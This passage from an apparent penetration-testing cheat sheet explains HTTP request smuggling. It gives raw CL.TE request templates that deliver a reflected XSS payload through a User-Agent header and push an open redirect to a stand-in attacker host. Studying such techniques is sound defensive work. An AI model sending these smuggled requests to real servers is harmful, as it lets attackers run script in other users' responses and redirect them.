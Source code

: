 {{< hint style=notes >}}
**Note**: One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string
{{< /hint >}}

{{< hint style=tips >}}
**Tip**: Another way to steal other users' responses is with the [#response-queue-poisoning](http-request-smuggling.md#response-queue-poisoning "mention") technique.
{{< /hint >}}

### Exploit reflected XSS

**CL.TE**

You can use a request smuggling attack to target other users of the application. This method is better than standard reflected XSS because it doesn't require victim interaction and can exploit XSS in areas like HTTP headers, which are not possible to control in typical attacks.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

The next user's request is appended to the smuggled one, delivering the XSS payload in their response.

### Open redirect

**CL.TE**

```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Exploit

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
